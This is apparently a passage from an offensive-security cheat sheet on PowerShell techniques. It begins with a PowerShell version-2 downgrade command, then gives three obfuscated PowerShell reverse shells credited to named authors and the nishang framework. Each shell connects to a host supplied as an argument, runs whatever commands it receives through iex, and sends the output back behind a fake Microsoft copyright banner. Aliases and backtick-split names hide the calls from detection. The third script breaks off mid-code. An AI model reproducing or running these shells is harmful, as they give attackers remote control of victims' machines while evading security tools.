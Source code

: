 ```powershell
powershell -version 2
```

#### Reverse Shells

```powershell
Set-Alias -Name K -Value Out-String
Set-Alias -Name nothingHere -Value iex
$BT = New-Object "S`y`stem.Net.Sockets.T`CPCl`ient"($args[0],$args[1]);
$replace = $BT.GetStream();
[byte[]]$B = 0..(32768*2-1)|%{0};
$B = ([text.encoding]::UTF8).GetBytes("(c) Microsoft Corporation. All rights reserved.`n`n")
$replace.Write($B,0,$B.Length)
$B = ([text.encoding]::ASCII).GetBytes((Get-Location).Path + '>')
$replace.Write($B,0,$B.Length)
[byte[]]$int = 0..(10000+55535)|%{0};
while(($i = $replace.Read($int, 0, $int.Length)) -ne 0){;
$ROM = [text.encoding]::ASCII.GetString($int,0, $i);
$I = (nothingHere $ROM 2>&1 | K );
$I2  = $I + (pwd).Path + '> ';
$U = [text.encoding]::ASCII.GetBytes($I2);
$replace.Write($U,0,$U.Length);
$replace.Flush()};
$BT.Close()
```
Credit:
@TihanyiNorbert (Reverse shell based on the original nishang Framework written by @nikhil_mitt)

- [gh0x0st/Get-ReverseShell](https://github.com/gh0x0st/Get-ReverseShell/tree/main)

```powershell
$J = New-Object System.Net.Sockets.TCPClient($args[0],$args[1]);
$SS = $J.GetStream();
[byte[]]$OO = 0..((2-shl(3*5))-1)|%{0};
$OO = ([text.encoding]::UTF8).GetBytes("Copyright (C) 2022 Microsoft Corporation. All rights reserved.`n`n")
$SS.Write($OO,0,$OO.Length)
$OO = ([text.encoding]::UTF8).GetBytes((Get-Location).Path + '>')
$SS.Write($OO,0,$OO.Length)
[byte[]]$OO = 0..((2-shl(3*5))-1)|%{0};
while(($A = $SS.Read($OO, 0, $OO.Length)) -ne 0){;$DD = (New-Object System.Text.UTF8Encoding).GetString($OO,0, $A);
$GG = (i`eX $DD 2>&1 | Out-String );
$H  = $GG + (pwd).Path + '> ';
$L = ([text.encoding]::UTF8).GetBytes($H);
$SS.Write($L,0,$L.Length);
$SS.Flush()};
$J.Close()
```
Credit:
@TihanyiNorbert (Reverse shell based on the original nishang Framework written by @nikhil_mitt)

```powershell
$c = New-Object System.Net.Sockets.TCPClient($args[0],$args[1]);
$I = $c.GetStream();
[byte[]]$U = 0..(2-shl15)|%{0};
$U = ([text.encoding]::ASCII).GetBytes("Copyright (C) 2021 Microsoft Corporation. All rights reserved.`n`n")
$I.Write($U,0,$U.Length)
$U = ([text.encoding]::ASCII).GetBytes((Get-Location).Path + '>')
$I.Write($U,0,$U.Length)
while(($k = $I.Read($U, 0, $U.Length)) -ne 0){;$D = (New-Object System.Text.UTF8Encoding).GetString($U,0, $k);
$a = (iex $D 2>&1 | Out-String );
$r  = $a + (pwd).Path + '> ';
$m = ([text.encoding]::ASCII).GetBytes($r);
```